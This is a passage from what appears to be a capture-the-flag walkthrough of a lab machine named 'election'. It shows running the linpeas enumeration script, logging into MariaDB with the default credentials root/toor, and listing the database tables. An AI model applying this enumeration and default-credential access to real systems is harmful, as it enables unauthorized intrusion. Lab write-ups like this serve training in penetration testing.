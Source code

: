 ![image.png](image%2012.png)

We can change the

 permissions to executable with `chmod +x linpeas.sh` and run it with `./linpeas.sh`
Turns out we have access to the mysql service! Using the default credentials `root : toor` .

```
MySQL connection using root/toor ................... Yes                                                             
User    Host    authentication_string                                                                                   
root    localhost                                                                                                       
newuser localhost
```

```
love@election:~$ mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 23
Server version: 10.1.44-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

<..snip..>

MariaDB [(none)]> use election;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [election]> show tables
    -> ;                                                                                                                             
+--------------------+
| Tables_in_election |
+--------------------+
| tb_guru            |
| tb_hakpilih        |
| tb_kandidat        |
| tb_level           |
| tb_panitia         |
```